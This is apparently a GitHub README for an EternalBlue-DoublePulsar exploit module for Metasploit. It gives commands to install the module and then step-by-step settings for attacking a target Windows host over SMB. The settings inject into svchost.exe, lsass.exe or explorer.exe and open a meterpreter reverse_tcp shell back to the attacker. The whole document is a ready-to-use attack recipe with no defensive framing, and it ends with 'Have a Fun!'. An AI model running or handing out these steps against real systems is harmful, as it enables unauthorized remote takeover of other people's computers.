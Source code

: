 # Eternalblue-Doublepulsar-Metasploit

# How to Install
<pre>
- dpkg --add-architecture i386 && apt-get update -y && apt-get install wine32 -y
- git clone https://github.com/grglzrv/Eternalblue-Doublepulsar-Metasploit.git
- cd Eternalblue-Doublepulsar-Metasploit
- cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb

Note !!!: Also copy 'deps' directory to /usr/share/metasploit-framework/modules/exploits/windows/smb

- mkdir -p /root/.wine/drive_c/
</pre>
# How to use

- service postgresql start
- service postgresql enable
- msfconsole
- reload_all 
- use exploit/windows/smb/eternalblue_doublepulsar
- show options

 * For Windows x64 

 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or set PROCESSINJECT lsass.exe
 - set TARGETARCHITECTURE x64
 - set payload windows/x64/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 
 * For Windows x86

 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or set PROCESSINJECT explorer.exe
 - set TARGETARCHITECTURE x86
 - set payload windows/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 
 # Have a Fun! :)
